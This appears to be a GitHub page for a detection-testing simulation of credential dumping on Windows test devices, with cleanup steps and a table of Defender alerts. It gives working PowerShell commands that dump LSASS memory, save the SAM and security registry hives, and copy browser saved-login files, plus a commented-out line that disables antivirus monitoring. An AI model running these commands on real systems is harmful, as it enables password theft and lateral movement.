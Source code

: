 # Credential Dumping & Exfiltration

Credential dumping is a technique used by attackers to extract stored authentication credentials—such as usernames, passwords, or hashes—from a system's memory or security databases. These credentials can then be used for lateral movement, privilege escalation, or unauthorized access to sensitive systems.

## Simulation

Run the following commands in PowerShell as Administrator on a test device.

[ ] TODO: Create Script

> **Note:** Download the [simulation script here]().
> To execute the simulation run the command ``.
> To clean up the simulation run the command ` -CleanUp`.

### LSASS Memory Dumping

**LSASS Memory Dumping** attempts to access credential material stored in the process memory of the Local Security Authority Subsystem Service (LSASS). After a user logs on, various credentials are generated and stored in LSASS memory. Attackers, particularly those with administrative privileges, can harvest this credential material and use it for lateral movement, leveraging alternate authentication methods to gain access to other systems.

```powershell
$folderPath = "$env:TEMP\LSASSdump"
New-Item -Path $folderPath -ItemType Directory
#Set-MpPreference -DisableRealtimeMonitoring $true -ExclusionPath $folderPath
$lsassPID = (Get-Process -Name lsass).Id
cmd.exe /C "C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsassPID $folderPath\out.dmp full"
```

### SAM Credential Extraction

**SAM Credential Extraction** is a technique where attackers attempt to retrieve credential material from the Security Account Manager (SAM) database, either by accessing it in memory or through the Windows Registry where it is stored. The SAM database contains local account credentials, typically visible using the net user command. Extracting data from the SAM requires SYSTEM-level privileges, allowing attackers to potentially gain access to sensitive user credentials for further exploitation.

```powershell
$folderPath = "$env:TEMP\SAPdump"
New-Item -Path $folderPath -ItemType Directory
reg save HKLM\sam "$folderPath\sam" /y
reg save HKLM\system "$folderPath\system" /y
reg save HKLM\security "$folderPath\security" /y
```

### Browser Credential Theft

**Credentials from Web Browsers** is a technique where attackers obtain saved credentials from web browsers by accessing browser-specific files. Web browsers often store usernames and passwords in an encrypted format within a credential store to enable auto-login for websites. However, attackers can extract these credentials in plaintext.

```powershell
$folderPath = "$env:TEMP\BrowserDump"
New-Item -Path $folderPath -ItemType Directory
esentutl.exe /y "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Login Data" /d "$folderPath\Chrome_Login_Data.tmp"
esentutl.exe /y "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Login Data For Account" /d "$folderPath\Chrome_Login_DataForAccount.tmp"
esentutl.exe /y "$env:LOCALAPPDATA\Microsoft\Edge\User Data\Default\Login Data" /d "$folderPath\Edge_Login_Data.tmp"
```

## Cleanup

```powershell
$folderPath = "$env:TEMP\LSASSdump"
Remove-Item -Path $folderPath -Recurse -Force

$folderPath = "$env:TEMP\SAPdump"
Remove-Item -Path $folderPath -Recurse -Force

$folderPath = "$env:TEMP\BrowserDump"
Remove-Item -Path $folderPath -Recurse -Force
```

## Detections

| Alert Title | Alert Description | Alert Details |
| -- | -- | -- |
| TODO | Add details of LSASS Detections | To this Table |
| An active 'RegistryExfil' malware in a command line was prevented from executing | Malware and unwanted software are undesirable applications that perform annoying, disruptive, or harmful actions on affected machines. Some of these undesirable applications can replicate and spread from one machine to another. Others are able to receive commands from remote attackers and perform activities associated with cyber attacks. A malware is considered active if it is found running on the machine or it already has persistence mechanisms in place. Active malware detections are assigned higher severity ratings. Because this malware was active, take precautionary measures and check for residual signs of infection. | **Category:** Malware<br/>**MITRE ATT&CK Techniques:** N/A<br/>**Service source:** Microsoft Defender for Endpoint<br/>**Detection source:** Antivirus<br/>**Detection technology:** Client,Heuristic<br/>**Detection status:** Blocked |
| Possible theft of passwords and other sensitive web browser information | A process might be attempting to retrieve sensitive web browser information, such as saved passwords, cookies, or the browsing history. | **Category:** Credential access<br/>**MITRE ATT&CK Techniques:** T1003: OS Credential Dumping, T1005: Data from Local System, T1119: Automated Collection, T1539: Steal Web Session Cookie, T1550.004: Web Session Cookie, T1552.001: Credentials In Files, T1555.003: Credentials from Web Browsers, T1555.004: Windows Credential Manager<br/>**Service source:** Microsoft Defender for Endpoint<br/>**Detection source:** EDR<br/>**Detection technology:** Behavior,Network<br/>**Detection status:** Detected |

### References

* [Github: LearningKijo/ResearchDev/LSASS Dumping](https://github.com/LearningKijo/ResearchDev/blob/main/DEV/DEV04-LSASSdumping-MiniDump/Dev04-LSASSdumping-MiniDump.md)
